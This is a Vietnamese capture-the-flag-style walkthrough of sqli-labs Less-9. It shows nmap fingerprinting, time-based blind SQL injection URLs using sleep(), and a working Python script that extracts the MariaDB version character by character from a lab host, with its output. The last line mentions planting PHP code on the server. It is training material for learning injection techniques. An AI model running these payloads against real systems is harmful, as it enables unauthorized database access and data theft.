






# Less 9

Đề yêu cầu nhập vào một giá trị



Nhập thử một vài giá trị








Ta có thể thấy trong bài này cho dù ta nhập vào bất kỳ giá trị nào nó cũng chỉ có một kết quả trả về. Như vậy ở bài này ta không thể khai thác được gì từ việc cho hiển thị lỗi và sử dụng boolean based. Trong bài này ta còn một cách cuối cùng là sử dụng time-based.

Trước tiên sử dụng `nmap` để xác định kiểu DBMS

```
nmap -sV --version-all 192.168.84.233

Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-18 17:39 +07
Nmap scan report for 192.168.84.233
Host is up (0.014s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
3306/tcp open  mysql   MariaDB (unauthorized)
``` 

Ta thấy ở đây sử dụng DB là MariaDB. Ta thấy với MariaDB có các phiên bản là 5.x và 10.x. Như vậy ta có thể tận dụng vào đây để xác định câu query bên dưới backend

Sau một vài lần thử

```
http://192.168.84.233/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```



Tiếp tục thử ta thấy được

```
http://192.168.84.233/sqli-labs/Less-9/?id=1' and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```



Ta có thể kết luận là version của MariaDB sử dụng ở đây là bản 5.x và câu query có thể là

```
select * from table where id='$ID' limit 0,1
```

Như vậy ta có thể dựa vào đây để đọc các thông tin của DB giông như ở [Less-7](Less-7.md)

Ví dụ ta có thể show version của DBMS

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-9/?id=1' and if(substr(("
query = "select @@version"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả

```
python Sql-time-based.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
+
```

Version là `5.5.60-mariadb`

Tương tự như vậy ta có thể show các thông tin khác như 2 bài trước. Và ta cũng có thể thêm vào server một đoạn code PHP như nhưng bài trước đó